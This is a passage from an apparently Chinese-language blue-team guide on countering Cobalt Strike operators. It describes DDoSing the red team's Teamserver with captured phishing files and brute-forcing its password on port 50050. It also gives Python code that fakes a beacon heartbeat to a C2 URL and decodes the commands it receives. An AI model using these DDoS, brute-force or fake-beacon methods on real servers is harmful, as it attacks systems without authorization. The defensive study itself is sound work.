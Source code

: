 ### 3.7 反制 coablt strike

#### 1. 反制钓鱼

在隔离网段机器上批量启动钓鱼文件，DDOS 红队的 Teamserver，利用脚本。  
参考文章：[蓝色吃定红色 - 爆破 CS Teamserver 密码](https://mp.weixin.qq.com/s?__biz=MzIzODE0NDc3OQ==&mid=2247483812&idx=1&sn=2bf03bd09a54951483e9e5ba7a06a416&scene=21#wechat_redirect)

#### 2. 爆破 CS 密码

一般情况下 CS 都会设置在 50050 端口，且密码相对都会比较简单，我们可以使用脚本去破解其密码直接连接其服务端然后进行其他操作。爆破脚本：脚本下载地址

#### 3. 假上线

只发送心跳包，让 CS 以为我们已经上线，这时候攻击者只会看到上线信息但无法执行任何命令。  
利用代码：

```
import re
import time
import requests

def heartbeat():
    url = "http://192.168.186.133:333/activity"
    headers = {
'Cookie': 'IgyzGuIX0Jra5Ht45ZLYKyXWBnxfkNI3m6BOvExEPdWCuAv8fnY6HXKTygBOVdE34sDYusoDIjzHr/QR32mKsoVPb5NFMCHAtC7FLQUdSsZdufXjsd2dSqkGDcaZkcQYD1BssyjGZHTy42lT8oDpga3y1z5FMGRjobeksgaMX7M=',
'Host': '192.168.186.133:333',
'Accept': '*/*',
'Connection': 'Keep-Alive',
'Cache-Control': 'no-cache',
'User-Agent': 'Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727)'
        }
    resp = requests.get(url=url,headers=headers)
    text = resp.content.hex()
return text

x = True
while x:
    text = heartbeat()
    lengs = len(text)
# print(lengs, "    ", text)

if '2f4320' in text and '000041' in text:
        print(time.strftime("%Y-%m-%d %H:%M:%S", time.localtime()))

        commeds = re.findall(r'2f4320(.*?)000041', text)
for comm in commeds:
            commed = bytes.fromhex(comm).decode('utf-8')
            print(commed)
    time.sleep(5)
```
